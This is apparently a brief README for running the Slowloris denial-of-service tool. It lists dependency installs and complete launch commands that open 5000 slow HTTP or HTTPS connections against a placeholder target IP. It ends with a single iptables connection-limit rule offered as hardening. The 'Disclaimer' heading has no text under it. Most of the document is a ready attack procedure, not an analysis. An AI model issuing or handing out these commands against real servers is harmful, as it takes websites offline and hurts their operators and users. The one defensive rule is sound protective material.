 # Disclaimer

Log Web Server Apache :
------
```
/var/log/apache2/tail -f ./access.log
/var/log/apache2/access.log
```

Requirements:
------
```
sudo apt-get update  
sudo apt-get install perl
sudo apt-get install libwww-mechanize-shell-perl
sudo apt-get install perl-mechanize
```

Example Configuration :
-----
```
cd /thePathToYourSlowloris.plFile
./slowloris.pl
HTTP -> perl slowloris.pl -dns [IP_TARGET] -port 80 -timeout 200 -num 5000 -cache
HTTPS -> perl slowloris.pl -dns [IP_TARGET] -port 443 -timeout 200 -num 5000 -cache
```

Harderning DOS :
-------
```
Hardening => iptables -I INPUT -p tcp --dport 80 -m connlimit --connlimit-above 20 --connlimit-mask 40 -j DROP
```

